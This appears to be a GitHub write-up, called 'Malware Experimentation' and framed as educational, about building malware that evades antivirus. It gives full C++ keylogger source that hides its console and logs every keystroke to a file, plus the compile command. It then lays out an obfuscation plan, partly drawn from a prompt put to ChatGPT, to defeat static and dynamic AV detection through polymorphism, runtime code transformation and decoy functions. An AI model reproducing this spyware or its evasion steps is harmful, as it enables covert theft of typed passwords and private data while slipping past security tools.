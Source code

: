 Malware Experimentation
---

In this experiment, i will try to develop a malware that is able to bypass antivirus softwares for educational purpose. For the sake of demonstration, i will primarily use C++ to create a malware.

Jan 21 2025
---

I have created a keylogger file using one on the internet in which it will save the output in log.txt every time i type.

```
#include <iostream>
#include <windows.h>

using namespace std;

int Save(int _key, char *file);

int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}

int Save(int _key, char *file) {
    cout<< _key << endl;
    Sleep(10);
    FILE *OUTPUT_FILE; // can also use the ofstream command
    OUTPUT_FILE = fopen(file, "a+"); //a+ is used to add new keys each time, and not overwrite
    switch(_key)
    {
        case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]");
            break;
        case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]");
            break;
        case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]");
            break;
        case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]");
            break;
        case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]");
            break;
        case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]");
            break;
        case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]");
            break;
        case VK_CONTROL: fprintf(OUTPUT_FILE, "[Ctrl]");
            break;
        case VK_MENU: fprintf(OUTPUT_FILE, "[Alt]");
            break;
        case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS Lock]");
            break;
        case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]");
            break;
    }
    fprintf(OUTPUT_FILE, "%s", &_key);
    fclose(OUTPUT_FILE);
    return 0;
}
```
Next, i compiled it with g++

```
g++ -o test test.cpp
```
**File: log.txt**

![image](https://github.com/user-attachments/assets/ef8020dd-bf85-4d72-98ef-9adac3c205fa)

As you can see from the output file, it records everything when this file is running. Now let's see how it is evaluated in VirusTotal.

Static Analysis
---

![image](https://github.com/user-attachments/assets/3eec70fa-01ad-49a6-8db8-17eb5c6846be)

Dynamic Static Analysis
--

![image](https://github.com/user-attachments/assets/bb10c840-78cf-4076-a3a7-bd7dae1d0582)


**Results:** It seems that some antivirus flag this file as a spyware which is correct but at this momemt it isn't a spyware yet! (and some give us false positive result lol)

> [!Tip]
> If we want our soon-to-be spyware undetected, we need to wear a ghillie suit!

With that being said, we will now obfuscate the code to make things harder for VirusTotal!

What we are going to do is obfuscation. This proccess makes AVs especially static analysis having a hard time due to it couldn't inspect the code because the code does not make any sense! AVs usually detects behavioral patterns, dangerous commands some also implemented AI for this very purpose. Tha'ts where obfuscation came in. 

> [!Tip]
> Obfuscation can be de-obfuscation or reverse engineering if they wanted to!

Here is my idea when i want to obfuscate my spyware. I ask ChatGPT with this idea:

> [!NOTE]
> i want somethnig that make the code readable but when AV inspect it. It gets another definition. No patterns are made. make it random as possible. what technique do you think is closest to this one?ontent.

Obfuscation Techniques:
--
1. Polymorphic Code (Randomization) => Randomize and reorder functions so that static analysis couldn't found matched functions.
2. Runtime Code Transformation => Malicious logic code executes only when it is being called. When it is not being called, it will be hidden.
3. Decoy Code (Misdirection) => Make a decoy function that seems like a legitimate function.

This should make AVs focus on the decoy code(Decoy Code (Misdirection)) while concealing most of the code logic in which it prevents AVs from trying to understand the code(Polymorphic Code (Randomization)). Lastly, the malicious code logic is executed when being called. (Runtime Code Transformation)

